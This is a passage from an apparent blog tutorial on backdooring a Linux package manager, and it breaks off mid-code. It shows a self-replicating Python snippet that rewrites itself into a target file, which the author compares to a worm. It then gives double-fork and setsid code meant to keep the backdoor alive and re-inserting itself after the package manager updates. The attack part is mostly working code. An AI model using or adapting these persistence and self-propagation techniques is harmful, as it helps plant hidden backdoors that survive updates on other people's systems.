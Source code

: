 Sticking the above into a file by itself and running it, we can see that the target "badFile" contains the exact same code. If this was run repeatedly, it could continue to add itself back to itself, or other files. We almost have something like a self-replicating worm, it just doesn't do anything else yet.

{% highlight none %}
root@test:~# touch /tmp/badfile
root@test:~# cat /tmp/badfile
root@test:~# python badfile.py
root@test:~# cat /tmp/badfile

badVar = r'''
import sys,os
def bad():
    # some code
    with open('/tmp/badfile', 'r+') as badFile:
        if 'badVar' not in badFile.read():
            badFile.write("\nbadVar = r\'''" + badVar + "\'''\nexec(badVar)\n")
    return
bad()
'''
exec(badVar)
{% endhighlight %}

### Waiting Your Turn

Applying this to the actual backdoor concept requires some more thinking. When the package manager executes, our value-added code will run, but it first needs to wait for the package manager to finish updating itself before the re-addition. This seems impossible to achieve with certainty unless we create a separate process and wait for the original to finish. We could execute our "wait and then write file" function with subprocess.Popen(), but then we have another layer of quotes to place around everything as an argument, which is starting to become a nightmare. We also need this second process to continue execution when the parent process exits. We can do this with fork() and Popen(), but there is a more direct way. [(See also)](https://stackoverflow.com/questions/5772873/python-spawn-off-a-child-subprocess-detach-and-exit)

On Linux, what we're attempting is accomplished with a double-fork() and setsid(). This divorces the new process completely from the original, so that it won't exit when the original process does, and is free to perform its own functions without affecting the original. In Python, that looks something like this:

{% highlight python %}
try:
    pid = os.fork()
    if pid > 0:
        # parent can just return
        return
except Exception as e:
    return
# child process
try:
    # setsid and fork again
    os.setsid()
    pid2 = os.fork()
    if pid2 > 0:
        # second parent can just exit
        sys.exit(0)